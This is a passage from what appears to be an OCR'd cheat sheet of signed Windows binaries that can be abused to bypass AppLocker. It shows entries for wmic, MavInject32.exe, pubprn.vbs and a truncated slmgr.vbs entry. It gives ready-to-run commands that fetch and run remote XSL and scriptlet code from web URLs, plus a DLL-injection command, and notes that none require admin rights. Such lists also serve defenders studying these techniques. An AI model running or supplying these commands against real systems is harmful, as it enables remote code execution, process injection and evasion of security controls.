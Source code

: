 wmic process get brief /format:"https://www.example.com/file.xsl

wmic os get /format:"MYXSLFILE.xsl"

wmic process get brief /format:"\\127.0.0.1\c$\Tools\pocremote.xsl"


* Requires admin: No
* Windows binary: Yes
* Bypasses AppLocker Default rules: ?

Notes:

* Links:
  * https://stackoverflow.com/questions/24658745/wmic-how-to-use-process-call-create-with-a-specific-working-directory
  * https://subt0x11.blogspot.no/2018/04/wmicexe-whitelisting-bypass-hacking.html
  * https://gist.githubusercontent.com/caseysmithrc/68924cabbeca1285d2941298a5b91c24/raw/8574e0c019b17d84028833220ed0b30cf9eea84b/minimalist.xsl

--------------------------------------------------------------------------
 31. MavInject32.exe


MavInject32.exe <PID> /INJECTRUNNING <PATH DLL>


* Requires admin: No
* Windows binary: Yes
* Bypasses AppLocker Default rules: ?

Notes:

* Links:
  * https://twitter.com/gN3mes1s/status/941315826107510784
  * https://twitter.com/Hexacorn/status/776122138063409152

--------------------------------------------------------------------------
 32. Pubprn.vbs


pubprn.vbs 127.0.0.1 script:https://gist.githubusercontent.com/api0cradle/fb164762143b1ff4042d9c662171a568/raw/709aff66095b7f60e5d6f456a5e42021a95ca802/test.sct


* Requires admin: No
* Windows binary: Yes
* Bypasses AppLocker Default rules: ?

Notes:

* Links:
  * https://www.slideshare.net/enigma0x3/windows-operating-system-archaeology
  * https://enigma0x3.net/2017/08/03/wsh-injection-a-case-study/

--------------------------------------------------------------------------
 33. slmgr.vbs


slmgr.vbs
